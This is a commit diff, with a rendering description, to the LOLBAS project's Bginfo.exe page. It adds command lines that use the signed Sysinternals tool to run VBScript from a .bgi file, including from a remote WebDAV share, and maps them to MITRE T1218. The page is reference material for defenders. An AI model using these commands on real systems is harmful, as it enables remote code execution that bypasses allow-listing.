

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/OtherMSBinaries/Bginfo.md, in a window 1280 px wide and 1400 px high, scrolled down 394 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1585 px from its top, so only the background shows below that.

```diff
--- a/_lolbas/OtherMSBinaries/Bginfo.md
+++ b/_lolbas/OtherMSBinaries/Bginfo.md
@@ -2,6 +2,28 @@
 name: Bginfo.exe
 description: Background Information Utility included with SysInternals Suite
 functions:
+  execute:
+    - description: Execute VBscript code that is referenced within the bginfo.bgi file.
+      code: bginfo.exe bginfo.bgi /popup /nolicprompt
+      mitreid: T1218
+      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
+      operatingsystem: Windows
+      privileges: User
+      usecase: Local execution of VBScript
+    - description: Execute bginfo.exe from a WebDAV server.
+      code: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
+      mitreid: T1218
+      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
+      operatingsystem: Windows
+      privileges: User
+      usecase: Remote execution of VBScript
+    - description: This style of execution may not longer work due to patch.
+      code: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
+      mitreid: T1218
+      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
+      operatingsystem: Windows
+      privileges: User
+      usecase: Remote execution of VBScript
   awl bypass:
     - description: Execute VBscript code that is referenced within the bginfo.bgi file.
       code: bginfo.exe bginfo.bgi /popup /nolicprompt
```
Also changed, not shown: _lolbas/Binaries/Microsoft.md (added, +44 -0 lines), _lolbas/Binaries/Schtasks.md (added, +15 -0 lines), _lolbas/OtherMSBinaries/Msxsl.md (+15 -0 lines), _lolbas/OtherMSBinaries/Rcsi.md (+8 -0 lines), _lolbas/OtherMSBinaries/Tracker.md (+8 -0 lines), _lolbas/OtherMSBinaries/Winword.md (deleted, +0 -25 lines), _lolbas/Scripts/Winrm.md (+10 -0 lines).
